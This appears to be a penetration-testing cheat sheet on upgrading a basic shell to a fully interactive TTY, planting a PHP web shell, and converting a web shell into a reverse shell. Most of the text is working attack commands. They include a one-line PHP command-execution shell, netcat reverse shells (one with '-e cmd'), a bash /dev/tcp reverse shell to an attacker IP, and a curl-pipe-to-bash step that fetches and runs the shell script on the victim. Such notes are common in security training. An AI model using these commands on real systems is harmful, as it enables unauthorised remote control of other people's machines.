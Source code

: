 ```yaml
---
description: Dummy shell to fully-interactive shell upgrade
---
```


# 😎 Fully-Interactive Shell Upgrade

## You just popped a shell...

Python:

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

If Python3 is available:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Example syntax:

```
/var/www/admin$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```

* The shell will look exactly the same or it may appear slightly differently

However, to gain full functionality do the following:

<mark style="color:yellow;">Press CTRL+Z</mark>

```
 stty raw -echo; fg
```

* <mark style="color:yellow;">Press enter a few times after this</mark>
* <mark style="color:yellow;">export TERM=xterm-256color</mark>
* Now, you will have a fully-interactive shell
* This includes tab/auto-complete
* CTRL+C
* And more

## PHP Web Shell

1. Create web shell

```
echo '<?php system($_GET["x"]);?>' > php-cmd.php
```

&#x20; 2\. Transfer to target (i.e. FTP)

&#x20; 3\. Use Netcat to connect back to your attack machine

&#x20; 4\. Transfer the nc.exe binary if it is a Windows target

&#x20; 5\. Start Netcat listener on the attack machine

```
nc -lnvp 1337
```

&#x20; 6\. Trigger reverse shell

```
nc -v <kali_ip_here> 1337

nc.exe -v <kali_ip_here> 1337 -e cmd
```

### Web Shell -> Reverse Shell Upgrade

* I personally do not like operating in web shells because of their clunky nature
* Let's fix that
* Situation: You ALREADY have a web shell on the victim

Create file:

rev\_shell:

```
#!/bin/bash
bash -i >& /dev/tcp/192.168.49.90/1337 0>&1
```

Start Netcat listener on Kali:

```
nc -lnvp 1337
```

Begin HTTP Server on Kali:

```
python3 -m http.server 80
```

Transfer file to the victim (I found out that you need to use curl when piping to bash):

```
curl 192.168.49.90/rev_shell | bash
```

Go back to your Netcat listener:

<figure><img src=".gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
